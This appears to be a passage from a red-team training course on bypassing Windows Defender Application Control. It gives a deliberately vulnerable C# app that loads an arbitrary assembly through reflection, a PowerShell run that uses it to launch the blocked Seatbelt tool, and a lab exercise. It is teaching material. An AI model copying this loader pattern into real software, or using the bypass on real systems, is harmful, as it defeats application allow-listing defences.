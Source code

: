There are many different classes of application vulnerability such as DLL & COM hijacks, overflows, double-freeing, deserialization, and more.  Under the correct conditions, some of these can lead to a WDAC bypass.  WDAC does a good job at ensuring that a trusted app can't load untrusted modules and/or code.  For instance, DLL hijacks don't typically bypass WDAC.  The type of vulnerability that is most likely to result in a WDAC bypass is one where code is executed "inside" the trusted application.

We won't study each vulnerability class - this example shows how an unsafe use of reflection could be abused.  Reflection is a programming paradigm often used in Java and C# to dynamically create an instance of a type at runtime.

Consider the following C#:

```csharp
using System.IO;
using System.Reflection;

namespace VulnerableApp;

internal static class Program
{
    public static void Main(string[] args)
    {
        var bytes = File.ReadAllBytes(args[0]);
        var asm = Assembly.Load(bytes);

        asm.EntryPoint.Invoke(null, new object[]
        {
            new string[] { }
        });
    }
}
```

  

This application takes in a path to a .NET assembly on disk, and reads it as a raw byte array.  It passes those bytes to the `Assembly.Load` method, which loads the assembly into the `AppDomain` of itself.  After the assembly has been loaded, it calls its main entry point.  This works as a WDAC bypass because this trusted application is taking and loading content from an untrusted (user-supplied) location, similar to how a LOLBAS' work.

If, for example, we had `Seatbelt.exe` on the desktop, it can't execute it directly but it can via this app.

PS C:\Users\rasta> .\Desktop\Seatbelt.exe
Program 'Seatbelt.exe' failed to run: Your organization used Device Guard to block this app. Contact your support person for more info

```
PS C:\Users\rasta> & 'C:\Program Files\LegitApp\VulnerableApp.exe' .\Desktop\Seatbelt.exe


                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v1.1.1         ,(((&%%%%%%%%%%%%%%%%%,>
                         #%%%%##,
```
  

This is obviously a contrived example and the "exploitability" would depend on if and where the vulnerable code was exposed to the user.

  

  **EXERCISE**  
  
Find and exploit the vulnerable .NET application on **Workstation 3**.



